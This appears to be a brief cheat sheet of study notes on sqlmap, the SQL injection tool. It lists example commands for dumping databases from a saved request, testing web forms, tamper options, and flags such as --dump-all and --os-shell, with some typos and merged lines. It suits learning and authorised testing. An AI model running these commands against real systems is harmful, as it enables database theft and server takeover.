 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
```
  -r uses the intercepted request you saved earlier

# What flag sets which database is in the target host's backend?  
Ex: If the flag is set to mysql then sqlmap will only test mysql injections.  
  --dbms tells SQLMap

# What type of database management system it is How do you dump the table entries of the database?  
  --dump attempts to outputs the entire database

  -p use the pramater

# How do you select the level of depth sqlmap should use(higher = more accurate and more tests in general).  
  --level

# How do you ask sqlmap to try to get an interactive os-shell?  
  --os-shell

# What flag dumps all data from every table
  --dump-all

# location of dump csv /home/user/.local/share/sqlmap/output/10.10.10.10/‐ dump/
```
